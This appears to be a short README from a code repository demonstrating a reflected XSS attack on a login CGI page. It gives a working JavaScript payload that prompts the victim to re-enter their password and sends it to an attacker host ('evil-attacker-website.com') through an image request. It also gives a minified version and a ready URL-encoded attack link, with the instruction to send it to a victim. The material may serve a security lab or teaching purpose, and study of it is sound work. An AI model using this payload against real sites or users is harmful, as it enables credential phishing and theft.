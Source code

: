 # XSS attack
Here is the script we would like to execute on the victim's machine

    var p = prompt("Please, enter your password again");
    o = document.createElement('img');
    o.setAttribute('src', 'http://www.evil-attacker-website.com/password=' + p);
    document.body.appendChild(o);

This code will prompt for the user's password, create an image with the password in the URL and append it to the body, making the browser send a request to our malicious server that will log the password.

## Minified version

    var p=prompt("Please, enter your password again");o=document.createElement('img');o.setAttribute('src','http://www.evil-attacker-website.com/password='+p);document.body.appendChild(o)

## URL to attack, only work in Firefox:
Send this URL to a victim to start the attack.
This not a permanent XSS attack.
> Replace "localhost" by the server name

http://localhost/cgi-bin/login.cgi?username=%3Cscript%3Evar%20p=prompt(%22Please,%20enter%20your%20password%20again%22);o=document.createElement(%27img%27);o.setAttribute(%27src%27,%27http://www.evil-attacker-website.com/password=%27+p);document.body.appendChild(o);%3C/script%3E&password=foobar
